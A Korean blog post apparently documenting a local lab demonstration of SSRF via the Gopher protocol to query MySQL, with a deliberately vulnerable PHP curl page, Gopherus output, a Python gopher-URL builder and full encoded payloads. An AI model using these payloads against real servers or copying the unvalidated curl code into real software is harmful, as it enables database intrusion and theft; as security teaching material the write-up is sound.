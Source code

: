 ```yaml
---
layout: post
title:  "SSRF Gopher Protocol을 이용하여 MySQL 주입(SSRF Through Gopher)"
tags: [WEB-Vuln]
excerpt: "SSRF 취약점이 발생할 때 Gopher Protocol을 이용하여 MySQL에 쿼리를 주입하여 있는 데이터베이스 정보를 탈취할 수 있습니다."
---
```

---

# Gopher 이란?([rfc 1436](https://datatracker.ietf.org/doc/html/rfc1436))

Gopher(고퍼)는 가서(Go) 가져온다(Fer)으로 가서 퍼온다라는 의미를 가지고 있으며 미네소타 대학에서 다양한 일정을 쉽게 관리하기 위해 만들어지면서 시작되었는데요

이 Gopher(고퍼)는 웹이 개발되기 전 FTP, Telnet과 같은 다양한 인터넷 서비스를 이용할 수 있게 됐습니다. 

하지만 HTTP가 개발되면서 대부분의 사용자들은 HTTP로 이용하게 되면서 Gopher은 현재 잘 쓰지 않는 프로토콜이라고 알려져있는데요

해당 Gopher(고퍼)를 이용하여 HTTP 요청, MySQL 연결, FTP 등 다양한 기능을 사용할 수 있습니다.

예시로 HTTP 요청의 경우 아래와 같이 80포트로 gopher 프로토콜을 이용하여 헤더를 생성하여 요청을 보내면 서버에서 Response를 받아 그대로 출력하는걸 볼 수 있습니다.

```bash
root@/var/www/html$ # GET / HTTP/1.1
root@/var/www/html$ # Host: localhost
root@/var/www/html$ curl gopher://127.0.0.1:80/_GET%20/%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0a
HTTP/1.1 200 OK
Date: Mon, 13 Sep 2021 14:47:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Mon, 13 Sep 2021 14:45:51 GMT
ETag: "17-5cbe1857b1730"
Accept-Ranges: bytes
Content-Length: 23
Content-Type: text/html

Hello Gopher Protocol!
```

또한 리눅스에서 nc와 curl을 이용하여 원하는 값을 전송할 수 있습니다.

![Gopher curl to nc](\post-images\SSRF\Gopher-Protocol\gopher-curl-nc.png)

---

# SSRF Example

먼저 Gopher 프로토콜을 이용하여 MySQL 데이터베이스의 정보를 탈취하는 시나리오를 위해서는 SSRF 취약점이 발생할 수 있는 페이지를 만들었습니다.

### index.php

```php
<?php 

if(isset($_GET['url'])){
    $cn = curl_init();
    curl_setopt($cn, CURLOPT_URL, $_GET['url']);
    $result = curl_exec($cn);

    echo $result;
}else{
    echo "?url=https://www.google.com";
}

?>
```

---

### hello.php

```php
Hello CURL hello.php
```

이렇게 php-curl을 이용하여 요청할 수 있는 환경을 만든 다음 ``?url=http://localhost/hello.php`` 를 넣어주게되면 해당 URL으로 요청하게 되면서 SSRF 취약점이 발생할 수 있게 됩니다.

---

# Gopher을 이용한 MySQL 데이터베이스 정보 탈취

SSRF가 취약점이 발생할 수 있는 서버의 MySQL 유저의 비밀번호가 없는 경우 Gopher 프로토콜을 이용하여 MySQL에 연결할 수 있게 됩니다.

## Gopherus 툴을 이용하여 URL 생성

Gopher 원하는 쿼리를 넣을 수 있는 URL을 생성하기 위해 [Gopherus](https://github.com/tarunkant/Gopherus) 툴을 사용할 수 있는데 사실상 밑에 있는 방법보단 이걸 이용해서 빠르게 생성할 수 있다.

사용 방법은 간단한데 아래와 같은 명령어를 입력한 다음 패스워드가 없는 유저의 이름을 적고 원하는 쿼리를 작성하면 바로 URL이 생성되는걸 볼 수 있습니다.

```bash
$ sh install.sh
$ gopherus --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: root
Give query to execute: SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;

Your gopher link is ready to do SSRF :

gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%32%00%00%00%03%53%45%4c%45%43%54%20%54%41%42%4c%45%5f%4e%41%4d%45%20%46%52%4f%4d%20%49%4e%46%4f%52%4d%41%54%49%4f%4e%5f%53%43%48%45%4d%41%2e%54%41%42%4c%45%53%3b%01%00%00%00%01
```

![gopherus tool](\post-images\SSRF\Gopher-Protocol\gopherus.png)

해당 URL을 가지고 SSRF 취약점이 존재하는 사이트에 아래와 같은 페이로드로 요청을 하면 

```
gopher://127.0.0.1:3306/_%25%61%33%25%30%30%25%30%30%25%30%31%25%38%35%25%61%36%25%66%66%25%30%31%25%30%30%25%30%30%25%30%30%25%30%31%25%32%31%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%37%32%25%36%66%25%36%66%25%37%34%25%30%30%25%30%30%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%35%66%25%36%65%25%36%31%25%37%34%25%36%39%25%37%36%25%36%35%25%35%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%30%30%25%36%36%25%30%33%25%35%66%25%36%66%25%37%33%25%30%35%25%34%63%25%36%39%25%36%65%25%37%35%25%37%38%25%30%63%25%35%66%25%36%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%30%38%25%36%63%25%36%39%25%36%32%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%30%34%25%35%66%25%37%30%25%36%39%25%36%34%25%30%35%25%33%32%25%33%37%25%33%32%25%33%35%25%33%35%25%30%66%25%35%66%25%36%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%35%66%25%37%36%25%36%35%25%37%32%25%37%33%25%36%39%25%36%66%25%36%65%25%30%36%25%33%35%25%32%65%25%33%37%25%32%65%25%33%32%25%33%32%25%30%39%25%35%66%25%37%30%25%36%63%25%36%31%25%37%34%25%36%36%25%36%66%25%37%32%25%36%64%25%30%36%25%37%38%25%33%38%25%33%36%25%35%66%25%33%36%25%33%34%25%30%63%25%37%30%25%37%32%25%36%66%25%36%37%25%37%32%25%36%31%25%36%64%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%30%35%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%33%32%25%30%30%25%30%30%25%30%30%25%30%33%25%35%33%25%34%35%25%34%63%25%34%35%25%34%33%25%35%34%25%32%30%25%35%34%25%34%31%25%34%32%25%34%63%25%34%35%25%35%66%25%34%65%25%34%31%25%34%64%25%34%35%25%32%30%25%34%36%25%35%32%25%34%66%25%34%64%25%32%30%25%34%39%25%34%65%25%34%36%25%34%66%25%35%32%25%34%64%25%34%31%25%35%34%25%34%39%25%34%66%25%34%65%25%35%66%25%35%33%25%34%33%25%34%38%25%34%35%25%34%64%25%34%31%25%32%65%25%35%34%25%34%31%25%34%32%25%34%63%25%34%35%25%35%33%25%33%62%25%30%31%25%30%30%25%30%30%25%30%30%25%30%31
```

이렇게 MySQL에 ``SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;`` 쿼리가 실행된 결과를 볼 수 있게됩니다.

![gopherus url ssrf](\post-images\SSRF\Gopher-Protocol\gopherus-tables.png)

---

#### MySQL 비밀번호 삭제

다음과 같은 명령어를 이용하여 비밀번호를 없앤 다음

```sql
mysql> alter user 'root'@'localhost' identified with mysql_native_password by '';
```

MySQL에 연결하는 패킷을 잡기 위해 PHP 소스코드로 연결하고 원하는 쿼리를 전송하고

---

### Wireshark MySQL Packet Capture

---

#### MySQL 연결

```php
<?php 

$conn = new mysqli("localhost", "root", "");
$conn->query("SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES");

?>
```

---

![Wireshark Packet MySQL](\post-images\SSRF\Gopher-Protocol\Wireshark-Packet-MySQL.png)

Wireshark(와이어샤크)를 이용해 로컬의 MySQL Packet를 캡쳐하면 위의 사진과 같이 MySQL의 요청, 응답 패킷이 캡쳐된걸 볼 수 있습니다.

---

### 캡쳐된 패킷 우클릭 후 ``Follow->TCP stream``

![MySQL Packet TCP stream](\post-images\SSRF\Gopher-Protocol\MySQL-Packet-TCP-stream.png)

캡쳐된 MySQL 패킷중 아무거나 눌러주면 되는데 괜히 헷갈리다가 삽질할 수 있으니 요청의 시작인 ``Login Request user=root`` 부분에 우클릭 한 다음 ``Follow`` 부분에 있는 ``TCP stream``을 누르면

---

### TCP stream의 ``::1:50731 -> ::1:3306(149 bytes)``를 눌러 요청된 캡쳐를 가지고 Show data as을 RAW으로 변경

![MySQL TCP Stream REQUEST RESPONSE](\post-images\SSRF\Gopher-Protocol\MySQL-TCP-Stream-Request-Response.png)

위의 사진처럼 요청(빨간색), 응답(파란색)이 있는걸 볼 수 있는데 요청 패킷만 가져오기 위해서

![TCP Stream ASCII Request](\post-images\SSRF\Gopher-Protocol\TCP-Stream-ASCII-Request.png)

하단에 있는 ``::1:50731 -> ::1:3306 (149 bytes)`` 부분을 눌러 확인하면

![TCP stream RAW](\post-images\SSRF\Gopher-Protocol\TCP-stream-RAW.png)

이렇게 요청 값만 보이게 됩니다. 

요청 값들을 URL으로 전송하기 위해 Show data as ASCII 부분을 RAW 으로 바꿔주면 아래와 같이 HEX로 인코딩된 데이터 값이 나오는데

![TCP REQUEST RAW HEX Encoding](\post-images\SSRF\Gopher-Protocol\MySQL-TCP-Stream-Request-HEX.png)

해당 HEX 데이터를 모두 복사한 다음 줄바꿈을 없애고 해당 python 코드를 실행시키면

```py
def gopher_raw_data(payloads):
    payloads = [payloads[i:i + 2] for i in range(0, len(payloads), 2)]

    print("gopher://127.0.0.1:3306/_%{}".format("%".join(payloads)))

gopher_raw_data("5300000185a20a00000000c0ff0000000000000000000000000000000000000000000000726f6f740000006d7973716c5f6e61746976655f70617373776f726400150c5f636c69656e745f6e616d65076d7973716c6e6400000003310000000353454c454354205441424c455f4e414d452046524f4d20494e464f524d4154494f4e5f534348454d412e5441424c45530100000001")
```

``SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;`` 쿼리를 실행할 수 있는 gopher URL이 나옵니다.

```
gopher://127.0.0.1:3306/_%53%00%00%01%85%a2%0a%00%00%00%00%c0%ff%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%15%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%07%6d%79%73%71%6c%6e%64%00%00%00%03%31%00%00%00%03%53%45%4c%45%43%54%20%54%41%42%4c%45%5f%4e%41%4d%45%20%46%52%4f%4d%20%49%4e%46%4f%52%4d%41%54%49%4f%4e%5f%53%43%48%45%4d%41%2e%54%41%42%4c%45%53%01%00%00%00%01
```

이제 해당 URL을 SRF 취약저밍 터지는 서버 내부의 CURL에 그대로 전송하기 위해 double url encoding하면

```
http://localhost?url=gopher://127.0.0.1:3306/_%25%35%33%25%30%30%25%30%30%25%30%31%25%38%35%25%61%32%25%30%61%25%30%30%25%30%30%25%30%30%25%30%30%25%63%30%25%66%66%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%37%32%25%36%66%25%36%66%25%37%34%25%30%30%25%30%30%25%30%30%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%35%66%25%36%65%25%36%31%25%37%34%25%36%39%25%37%36%25%36%35%25%35%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%30%30%25%31%35%25%30%63%25%35%66%25%36%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%30%37%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%36%65%25%36%34%25%30%30%25%30%30%25%30%30%25%30%33%25%33%31%25%30%30%25%30%30%25%30%30%25%30%33%25%35%33%25%34%35%25%34%63%25%34%35%25%34%33%25%35%34%25%32%30%25%35%34%25%34%31%25%34%32%25%34%63%25%34%35%25%35%66%25%34%65%25%34%31%25%34%64%25%34%35%25%32%30%25%34%36%25%35%32%25%34%66%25%34%64%25%32%30%25%34%39%25%34%65%25%34%36%25%34%66%25%35%32%25%34%64%25%34%31%25%35%34%25%34%39%25%34%66%25%34%65%25%35%66%25%35%33%25%34%33%25%34%38%25%34%35%25%34%64%25%34%31%25%32%65%25%35%34%25%34%31%25%34%32%25%34%63%25%34%35%25%35%33%25%30%31%25%30%30%25%30%30%25%30%30%25%30%31
```

![SSRF database tables list](\post-images\SSRF\Gopher-Protocol\ssrf-tables.png)

이렇게 SSRF 취약점을 이용하여 gopher 프로토콜로 데이터베이스의 정보를 탈취할 수 있는걸 볼 수 있었습니다.

---

## 후기

SSRF 취약점을 이용하여 웹 페이지의 소스코드만 가져올 수 있는게 아니라는걸 알 수 있었습니다.